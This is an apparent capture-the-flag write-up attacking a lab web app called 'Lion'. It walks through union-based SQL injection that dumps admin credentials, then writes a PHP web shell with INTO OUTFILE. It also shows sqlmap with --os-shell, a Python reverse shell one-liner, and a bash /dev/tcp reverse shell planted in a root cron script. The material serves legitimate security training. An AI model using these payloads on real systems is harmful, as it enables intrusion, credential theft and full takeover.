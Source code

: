 # Lion
![index image](../images/lion/index.webp)

## Recon
During the recon phase using Nmap and Feroxbuster, we found a few interesting things, such as an endpoint `/admine/includes` that contains some information, but we didn’t find anything suspicious. The Nmap scan didn’t reveal anything unusual either. There is a database and an RPC service open, but nothing significant was discovered.
<br>
![nmap image](../images/lion/nmap.webp)
![feroxbuster image](../images/lion/feroxbuster.webp)

Looking at the `/index.php` directory, we notice a search field that sends a POST request to `search.php` (the parameter used is `searchtitle`, as seen in the form). By attempting an SQL injection query, we can retrieve the first flag.
![search.php image](../images/lion/search.webp)

## Exploitation
This is an SQLi vulnerability. Therefore, we can exploit it either manually or by using SQLMap. Since my focus is on manual exploitation, I will only provide a few steps for using SQLMap. For manual exploitation, we’ll first attempt to determine the number of columns using the following query: `' order by 7 #`

After the `ORDER BY 8`, we get no results, so there are 7 columns. This indicates a union-based SQL injection. To retrieve some information, we will run the following queries:
* Query to retrieve the current database name `' union select 1,database(),3,4,5,6,7 #`. The database name is: news.
* In the following query `' union select 1,table_name,3,4,5,6,7 from information_schema.tables where table_schema = 'news' #`, we can retrieve the tables from the database. The following tables are present: `tbladmin`, `tblcategory`, `tblcomments`, `tblpages`, `tblposts`, `tblsubcategory`. Since we have an `/admin` endpoint, we can check if we can obtain the admin password.
* For get others columns, we have `' union select 1,column_name,3,4,5,6,7 from information_schema.columns where table_name = 'tbladmin' #`. We have the following columns: `AdminUserName` and `AdminPassword`.
* We will retrieve the results from both columns using the follow query `' union select 1,AdminUserName,3,4,5,6,7 from tbladmin; #` and `' union select 1,AdminPassword,3,4,5,6,7 from tbladmin; #`.

We have the following user/password: `admin:$2y$12$hu9MjecXIjTfVg8VW8hTtOb8EWdd3muA773vZa7r5m0QepC9PJ4b`.
I ran it through Hash Identifier, and it’s bcrypt. I tried cracking it with Hashcat, but it didn’t work. So, let's attempt to place a shell in the `includes` directory instead.
`' union select 1,<?php system($_GET['cmd']);?>,3,4,5,6,7 into outfile "/var/www/html/includes/x.php #`
![shell 1 image](../images/lion/shell1.webp)

Alright, we have a PHP shell. However, to save time, I’ll list the SQLMap commands below. Using SQLMap, we can run: `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste"`
![sqlmap 1 image](../images/lion/sqlmap1.webp)

Listing the databases and the current database: `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --dbs --hex` and `python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --current-db --hex`

As we observed manually, the admin password is hashed. Therefore, to upload a shell via SQLMap, we can use the following parameter: `--os-shell`. This option allows SQLMap to attempt to spawn an operating system shell on the target system if the SQL injection is successful.

`python3 sqlmap.py -u "http://172.16.14.214/search.php" --data "searchtitle=teste" --os-shell`

Now, we can get shell and reverse shell with python.
![sqlmap 2 image](../images/lion/shell2.webp)
![sqlmap 3 image](../images/lion/shell3.webp)
![sqlmap 4 image](../images/lion/shell4.webp)
```bash
export RHOST="IP";export RPORT=PORTA;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

## Post Exploitation
I ran `linpeas` to find potential vectors for privilege escalation. We found a `.sh` file (with misconfigured permissions) that is set to run as root in a cron job. This seems to be the likely path, but let’s examine the rest of the system to be sure.
![pos 1 image](../images/lion/pos1.webp)
![pos 2 image](../images/lion/pos2.webp)
![pos 3 image](../images/lion/pos3.webp)

There appears to be a logrotate version 3.8.6, which may be vulnerable. If our attempt with the cron job doesn’t work, we can try exploiting the logrotate vulnerability as an alternative.
![pos 4 image](../images/lion/pos4.webp)

Going back to the cron job, since we have write permissions on the file, we can modify it and apply the payload. After making the changes, we just need to wait for the cron job to execute and gain privilege escalation.

`/bin/bash -c 'sh -i >& /dev/tcp/ip/porta 0>&1'`
![pos 5 image](../images/lion/pos5.webp)
![pos 6 image](../images/lion/pos6.webp)